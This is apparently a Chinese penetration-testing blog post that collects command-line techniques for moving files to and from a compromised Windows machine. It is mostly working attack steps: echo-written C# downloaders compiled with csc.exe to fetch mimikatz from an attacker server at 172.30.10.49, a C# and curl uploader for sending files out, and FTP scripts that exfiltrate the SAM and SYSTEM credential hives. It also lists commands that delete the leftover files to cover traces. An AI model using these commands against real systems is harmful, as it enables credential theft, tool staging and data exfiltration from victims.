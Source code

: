 ```yaml
---
layout: post
title: 基于命令行(cmd)的文件上传下载方法汇总
date: 2017-09-18 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

网络上关于命令行上传下载的文章很多，总结的也比较全面，写这篇文章的目的仅仅是为了记录一下自己在渗透测试过程中用到的方法，不求大而全，好用就行。
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/基于命令行(cmd)的文件上传下载方法汇总/数据传输.jpg?raw=true)
{: refdef}   
图片来源于http://www.taihainet.com/news/txnews/cnnews/sh/2016-04-17/1711205.html





### \#0x00 使用C#完成文件上传下载
##### （一）使用C#完成文件下载（下载文件mi.exe到目标机器） 
1、把C#文件中的回车换行去掉，把代码写成一行，通过echo命令把代码写入c:\1.cs  
``` 
echo using System.Net;namespace downloader{class Program{static void Main(string[] args){WebClient client = new WebClient();string URLAddress = @"http://172.30.10.49/mi.exe";string receivePath = @"C:\";client.DownloadFile(URLAddress, receivePath+System.IO.Path.GetFileName(URLAddress));}}} > c:\1.cs
```

2、编译C#文件为可执行文件  
利用csc.exe编译C#文件，csc.exe的所在位置与 .NET Framework的版本有关，根据实际情况确定（可通过xp_cmdshell执行dir命令来确定csc.exe的位置。  
```
C:\Windows\Microsoft.NET\Framework\v1.1.4322\csc.exe /out:C:\download.exe C:\1.cs'
```

3、运行download下载mimikatz到目标机器  
```
C:\download.exe
```

4、mi.exe将被下载至C盘。  

5、渗透完成后执行以下命令删除遗留文件1.cs、download.exe、mi.exe
```
del c:\1.cs
del c:\download.exe
del c:\mi.exe
```
##### （二）使用C#完成文件上传（上传文件test.txt到HTTPServer）
1、文件编译方法同上（一），上传用到的1.cs文件如下所示：
```
using System.Net;namespace uploader{class Program{static void Main(string[] args){WebClient client = new WebClient();client.Headers.Add(HttpRequestHeader.Referer,"rerefeR");string URLAddress = @"http://xxxx:8000";string myFile = @"C:\test.txt";client.Credentials = CredentialCache.DefaultCredentials;client.UploadFile(URLAddress, "POST", myFile);client.Dispose();}}}
```
2、启动HTTPServer  
```
python SimpleHTTPServerWithUpload.py 8000
```
  
[SimpleHTTPServerWithUpload.py下载](https://gist.github.com/UniIsland/3346170)  


3、执行1.cs编译生成的可执行文件即可把C:\test.txt上传到HTTPServer机器的SimpleHTTPServerWithUpload.py所在目录。  
补充：如果目标机器上有curl，可以通过下面的命令配合SimpleHTTPServerWithUpload.py上传文件：  
```
curl xxxx:port -F "file=@/path/file" --header "referer:a"
```
#### 二、利用ftp进行上传下载  
[可能会用到的FTP Server推荐FileZilla](https://filezilla-project.org/)
##### （一）利用ftp从目标机器上传文件至ftp服务器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
PUT c:\sam.hive 
PUT c:\system.hive
```
执行如下命令  
```
echo open 172.30.10.49 21> c:\ftp.txt
echo admin>> c:\ftp.txt
echo admin>> c:\ftp.txt
echo bin>> c:\ftp.txt
echo PUT c:\sam.hive>> c:\ftp.txt
echo PUT c:\system.hive>> c:\ftp.txt
```
注意">、>>"前面不能有空格。  

2、执行ftp命令  
```
ftp -s:c:\ftp.txt
```

3、执行后sam.hive将被上传至ftp服务器根目录。  
4、删除目标机器上的ftp.txt
```
del c:\ftp.txt
```

##### （二）利用ftp把文件下载至目标机器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
GET mimikatz.exe 
```
依次执行如下命令  
```
echo open 172.30.10.49 21> c:\ftp.txt
echo admin>> c:\ftp.txt
echo admin>> c:\ftp.txt
echo bin>> c:\ftp.txt
echo GET mimikatz.exe>> c:\ftp.txt
```
注意">、>>"前面不能有空格。  
2、执行ftp命令  
```
ftp -s:c:\ftp.txt
```
3、执行后mimikatz.exe将被下载到目标机器c盘根目录。  
